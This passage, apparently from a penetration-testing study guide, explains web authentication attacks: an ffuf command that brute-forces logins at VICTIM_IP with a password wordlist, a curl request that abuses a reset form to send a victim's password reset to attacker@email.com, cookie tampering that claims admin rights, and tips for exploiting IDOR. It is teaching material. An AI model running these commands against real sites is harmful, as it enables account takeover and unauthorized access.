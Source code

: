 Once valid usernames are found, a brute force attack can be performed on the victim's login page using ffuf.

In the following example, ffuf is used to test a list of valid unsernames against a list of potential passwords, using these arguments:

```bash
`ffuf -w valid_usernames.txt:W1,/usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://VICTIM_IP/customers/login -fc 200`
```

* `-w1`: wordlist of valid usernames
* `-w2`: wordlist of potential passwords
* `-w`: specifies 2 wordlists that are comma separated
* `-fc`: checks for HTTP status code other than 200

### Logic Flaws

A logic flaw is when the typical logical path of an application is either bypassed, circumvented, or manipulated by an attacker.

Here is an example of a flaw in a password reset form that enables an attacker to send an account reset for a valid account to an email address of the attacker's choosing. This example uses CURL request using the `-H` flag to add `application/x-www-form-urlencoded` so the web server knows data is being submitted, the `-d` flag specifies that the password reset for `robert` should be emailed to `attacker@email.com`:

```bash
curl 'http://MACHINE_IP/customers/reset?email=robert@acmeitsupport.com' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@email.com'
```

### Cookie Tampering

Examining and editing the cookies set by the web server during your online session can have multiple outcomes, such as unauthenticated access, access to another user's account, or elevated privileges. Cookie values are often hashed or encoded with ASCII or base32. A tool such as [Crackstation](https://crackstation.net/) or [CyberChef](https://gchq.github.io/CyberChef/) could be used to help crack cookie hashes.

In the following example curl is used to tamper the cookie to show the user logged in as an admin:

```bash
curl -H "Cookie: logged_in=true; admin=true" http://VICTIM_IP/cookie-test
```

### IDOR

IDOR stands for Insecure Direct Object Reference occurs when user data input to a webserver is not validated. This occurs when web servers place too much trust in objects like files, data, and documents.

* A simple IDOR example would be a site user whose profile is at the url `http://victim.com/profile?=1` accesses the link `http://victim.com/profile?=100` and sees another user's information
* URLs are often encoded in base64, so IDOR vulnerabilities in based64 URLs can be identified/exploited
* URLs might also be encoded with hashed IDs, often in MD5
* Tips for exploiting IDOR include:
  * Testing parameter manipulation: This involves modifying parameters in the URL or payload to access restricted resources.
  * Testing for predictable resource locations: This involves attempting to guess the location of a resource by appending sequential numbers or other predictable values to the URL.
  * Testing for broken access controls: This involves attempting to access resources by bypassing authentication mechanisms.
  * Testing for verb tampering: This involves changing the HTTP verb (e.g., GET to POST) to access resources that are normally restricted.